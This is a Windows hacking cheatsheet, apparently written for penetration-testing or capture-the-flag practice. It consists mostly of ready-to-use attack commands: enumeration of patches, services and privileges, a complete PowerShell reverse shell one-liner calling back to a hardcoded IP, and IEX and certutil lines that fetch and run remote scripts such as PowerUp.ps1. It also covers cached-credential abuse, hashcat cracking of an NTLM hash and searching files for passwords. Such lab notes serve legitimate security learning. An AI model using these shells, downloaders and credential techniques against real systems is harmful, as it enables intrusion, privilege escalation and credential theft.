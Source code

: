 # WINDOWS HACKING CHEATSHEET

<!--
##################################################
##################################################
-->

## System Enumeration

### Show Patches
`wmic qfe get Caption,Description,HotFixID,InstalledOn`

### Show Drives
`wmic logicaldisk get caption,Description,providername`

### Find specific directory
`dir <Folder Name> /AD /s`

### Find specific file name on system
`dir /a /s /b c:\*flag2.txt`

`dir /b/s *.txt`

`where /r c:\Windows *.exe *.dll`

### Find Unquoted service paths
`wmic service get name,pathname,displayname,startmode | findstr /i auto | findstr /i /v "C:\Windows\\" | findstr /i /v """`

### Allow execution of scripts in powershell
`Set-ExecutionPolicy unrestricted`

### Show execution policy
`Get-ExecutionPolicy -List | Format-table -AutoSize`

<!--
##################################################
##################################################
-->

## User Enumeration

### Show User Privlages
`whoami /priv`

### Show a Users Group
`whoami /groups`

### List users in a group
`net localgroup administrtor`

### Show info on specified user
`net user administrator`

<!--
##################################################
##################################################
-->

## Network Enumeration

### Show Routing table
`route print`

<!--
##################################################
##################################################
-->

## Shells

### Powershell Reverse Shell One Liner
```
$client = New-Object System.Net.Sockets.TCPClient("192.168.25.31",7777);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + "PS " + (pwd).Path + "> ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()
```

<!--
##################################################
##################################################
-->

## Passwords

### Use cached creds Windows
`runas /u:Administrator cmd.exe /c findstr /si *.txt > C:\Users\offsec\Desktop\text.txt`

### Cracking Windows Password Hash
_Jon:1000:aad3b435b51404eeaad3b435b51404ee:ffb43f0de35be4d9917ac0cc8ad57f8d:::_
_USERNAME:SID:LM(BLANK=aad3b435b51404eeaad3b435b51404ee):NTLM:::_

`hashcat -m 1000 -a 0 -o plain-pass.txt --remove file-with-hash.hash /usr/share/wordlists/rockyou.txt`

### Find file containing keyword
`findstr /si password *.txt | *.xml | *.xls`

<!--
##################################################
##################################################
-->

## Useful Commands

### Windows spawn cmd and execute command
`cmd.exe /c echo "hello world"`

### Windows download from web
`IEX(New-Object Net.WebClient).downloadString('http://10.9.3.23/PowerUp.ps1')`

### Use certutil to download from web
`certutil.exe -urlcache -split -f "http://10.9.3.23/Advanced.exe" Advanced.exe`

### Windows Powershell download from web
`powershell "IEX(New-Object Net.WebClient).downloadString('http://10.9.3.23/PowerUp.ps1')"`

### Mount NFS v3
`mount -t nfs -o vers=3 $ip:/dir /mnt/dir`

### Download via windows CMD
`powershell -c (new-object System.Net.WebClient).DownloadFile('http://192.168.25.31/privesc/accesschk.exe','C:\Users\GitService\Desktop\accesschk.exe')`

### Search long output
`command |more`